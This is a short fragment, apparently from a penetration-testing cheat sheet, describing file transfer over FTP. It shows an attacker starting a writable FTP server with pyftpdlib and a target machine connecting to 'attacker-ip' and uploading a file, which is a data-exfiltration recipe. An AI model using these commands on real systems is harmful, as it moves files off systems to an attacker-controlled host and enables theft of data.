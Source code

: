 ##### FTP
_On atacker_
`python -m pyftpdlib -p 21 --write`
_On target_
`ftp attacker-ip`
`put filename`
